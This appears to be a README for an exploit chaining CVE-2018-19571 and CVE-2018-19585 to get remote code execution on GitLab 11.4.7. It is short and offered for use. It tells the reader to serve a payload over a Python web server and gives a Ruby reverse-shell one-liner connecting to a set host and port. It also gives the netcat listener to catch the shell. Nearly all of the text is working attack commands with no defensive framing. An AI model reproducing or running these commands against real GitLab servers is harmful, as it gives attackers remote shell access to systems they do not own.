

### Exploit for GitLab 11.4.7 RCE (CVE-2018-19571 + CVE-2018-19585)





You must host your payload on a webserver
```
python3 -m http.server 80
```

This payload should work on most gitlab instances
```sh
export RHOST=10.10.10.11
export RPORT=53
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


In this example we must start our reverse shell handler as well
```
nc -nvlp 53
```


Don't forget to add your web server address on exploit.
And/Or adjust it based on your own preferences.
```
```